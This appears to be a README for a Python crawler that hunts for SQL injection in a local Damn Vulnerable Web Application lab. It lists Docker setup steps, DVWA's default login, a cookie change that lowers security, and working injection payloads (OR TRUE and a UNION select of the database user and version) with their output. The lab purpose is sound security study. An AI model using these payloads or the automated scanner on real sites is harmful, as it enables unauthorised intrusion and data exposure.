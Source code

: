 # demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-s HOST:PORT] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                base url to initialise crawl from

optional arguments:
  -h, --help            show this help message and exit
  -s HOST:PORT, --slave HOST:PORT
                        instance slave mode, connecting to master at HOST:POST
  -v LEVEL, --verbosity LEVEL
                        increase the level of information output
```

### example
```
> python ./spider.py localhost

[info] logging in at 'http://localhost/login.php'
[info] crawled site 'http://localhost' and found 12 urls with forms to test
[info] 1 sql injection vulnerability identified at:
url: 'http://localhost/vulnerabilities/sqli/'
data: 'version|5.5.47-0ubuntu0.14.04.1, user|admin@localhost'
```


### architectual framework components
#### user input
- provide target / root
- reset target cache
- node mode, server (default) / worker
#### node container
- scraping / parsing logic
- identify further urls
#### runner
- server, providing communication end-points to farm out available work
- output results
- block node operations while not logged in
- url pools, maps for processed / processing / to process, mutexes for access
#### storage
- user/node states, authenticate logon
- urls, semi-regularly synchronised with memory pools for recovery
- results, vulnerable urls
#### api
- get_scrape_url_next
- send_scraped_urls
#### unit test suite
- api handles
- mock vulnerable server with static form templates

### architectural design (C4 methodolody)
![architectural design](architecture.png)

## testing
```
> python src/tests.py
```

## todo
- state implementation
- restore / reset existing state cmdline and interactive options
- docstrings
- test suite
- track url_pools diffs for state sync
- crawl link subpaths for isolated (no linked) resources
- make result deduction template agnostic via pre / post exploit diff to
extract results from unknown DOM position
- custom credentials cmdline option
- support multiple credentials sets
- parse robots.txt for valid paths, etiquette abuse

## dependencies
- docker
- dvwa
- tornado
- pycurl
- libcurl
- beautifulsoup
- lxml
- mongodb
- pymongo
